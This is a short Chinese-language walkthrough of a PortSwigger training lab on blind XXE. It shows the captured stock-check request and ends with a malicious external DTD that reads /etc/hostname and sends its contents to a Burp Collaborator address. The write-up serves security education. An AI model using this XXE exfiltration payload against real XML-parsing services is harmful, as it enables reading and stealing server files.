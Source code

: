 靶场名称：Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD  
靶场地址：[https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)  
演示过程：

随意选择要给商品

[![](assets/1706060044-28755244befc400674839dbd085baaf1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123131629-90737d44-b9ae-1.png)  
检测剩余量

[![](assets/1706060044-05b1cc127c9ccc826fa4632e992249fb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123131640-970373da-b9ae-1.png)  
捕获的请求数据包如下所示：  
[![](assets/1706060044-22d3f89bfdc839a256c6a76c0ef9a4ae.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123131655-a043415a-b9ae-1.png)  
构造一下请求载荷

```plain
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://vfe4diypk995tl62h0q4c9ebk2qseh.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;
```
